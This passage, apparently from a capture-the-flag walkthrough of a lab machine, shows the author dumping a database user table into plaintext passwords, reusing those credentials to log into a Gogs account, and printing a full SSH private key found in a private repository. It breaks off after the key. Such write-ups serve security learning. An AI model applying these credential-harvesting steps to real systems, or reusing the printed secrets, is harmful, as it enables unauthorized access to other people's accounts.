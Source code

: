     /opt/app # ./dbtest.py 'show tables;'
    [{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]

Fetching all data from user table

    /opt/app # ./dbtest.py 'select * from craft.user;'
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

    ebachman:llJ77D8QFkLPQB
    gilfoyle:ZEU3N8WNM2rh4T

Nice, That's another creds for Gogs.

Gilfoyle creds worked and we did log in to his Gogs account.

## Shell as Gilfoyle



Every pair of creds I find I always try to SSH with. all creds I've found non of them worked for SSH on both ports.

So, After logging in with Gilfoyle on Gogs I found a privet repository **craft-infra**.

The first directory took my eyes was **.ssh** directory that contained a privet SSH key

    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDD9Lalqe
    qF/F3X76qfIGkIAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDSkCF7NV2Z
    F6z8bm8RaFegvW2v58stknmJK9oS54ZdUzH2jgD0bYauVqZ5DiURFxIwOcbVK+jB39uqrS
    zU0aDPlyNnUuUZh1Xdd6rcTDE3VU16roO918VJCN+tIEf33pu2VtShZXDrhGxpptcH/tfS
    RgV86HoLpQ0sojfGyIn+4sCg2EEXYng2JYxD+C1o4jnBbpiedGuqeDSmpunWA82vwWX4xx
    lLNZ/ZNgCQTlvPMgFbxCAdCTyHzyE7KI+0Zj7qFUeRhEgUN7RMmb3JKEnaqptW4tqNYmVw
    pmMxHTQYXn5RN49YJQlaFOZtkEndaSeLz2dEA96EpS5OJl0jzUThAAAD0JwMkipfNFbsLQ
    B4TyyZ/M/uERDtndIOKO+nTxR1+eQkudpQ/ZVTBgDJb/z3M2uLomCEmnfylc6fGURidrZi
    4u+fwUG0Sbp9CWa8fdvU1foSkwPx3oP5YzS4S+m/w8GPCfNQcyCaKMHZVfVsys9+mLJMAq
    Rz5HY6owSmyB7BJrRq0h1pywue64taF/FP4sThxknJuAE+8BXDaEgjEZ+5RA5Cp4fLobyZ
    3MtOdhGiPxFvnMoWwJLtqmu4hbNvnI0c4m9fcmCO8XJXFYz3o21Jt+FbNtjfnrIwlOLN6K
    Uu/17IL1vTlnXpRzPHieS5eEPWFPJmGDQ7eP+gs/PiRofbPPDWhSSLt8BWQ0dzS8jKhGmV
    ePeugsx/vjYPt9KVNAN0XQEA4tF8yoijS7M8HAR97UQHX/qjbna2hKiQBgfCCy5GnTSnBU
    GfmVxnsgZAyPhWmJJe3pAIy+OCNwQDFo0vQ8kET1I0Q8DNyxEcwi0N2F5FAE0gmUdsO+J5
    0CxC7XoOzvtIMRibis/t/jxsck4wLumYkW7Hbzt1W0VHQA2fnI6t7HGeJ2LkQUce/MiY2F
    5TA8NFxd+RM2SotncL5mt2DNoB1eQYCYqb+fzD4mPPUEhsqYUzIl8r8XXdc5bpz2wtwPTE
    cVARG063kQlbEPaJnUPl8UG2oX9LCLU9ZgaoHVP7k6lmvK2Y9wwRwgRrCrfLREG56OrXS5
    elqzID2oz1oP1f+PJxeberaXsDGqAPYtPo4RHS0QAa7oybk6Y/ZcGih0ChrESAex7wRVnf
    CuSlT+bniz2Q8YVoWkPKnRHkQmPOVNYqToxIRejM7o3/y9Av91CwLsZu2XAqElTpY4TtZa
    hRDQnwuWSyl64tJTTxiycSzFdD7puSUK48FlwNOmzF/eROaSSh5oE4REnFdhZcE4TLpZTB
    a7RfsBrGxpp++Gq48o6meLtKsJQQeZlkLdXwj2gOfPtqG2M4gWNzQ4u2awRP5t9AhGJbNg
    MIxQ0KLO+nvwAzgxFPSFVYBGcWRR3oH6ZSf+iIzPR4lQw9OsKMLKQilpxC6nSVUPoopU0W
    Uhn1zhbr+5w5eWcGXfna3QQe3zEHuF3LA5s0W+Ql3nLDpg0oNxnK7nDj2I6T7/qCzYTZnS
    Z3a9/84eLlb+EeQ9tfRhMCfypM7f7fyzH7FpF2ztY+j/1mjCbrWiax1iXjCkyhJuaX5BRW
    I2mtcTYb1RbYd9dDe8eE1X+C/7SLRub3qdqt1B0AgyVG/jPZYf/spUKlu91HFktKxTCmHz
    6YvpJhnN2SfJC/QftzqZK2MndJrmQ=
    -----END OPENSSH PRIVATE KEY-----
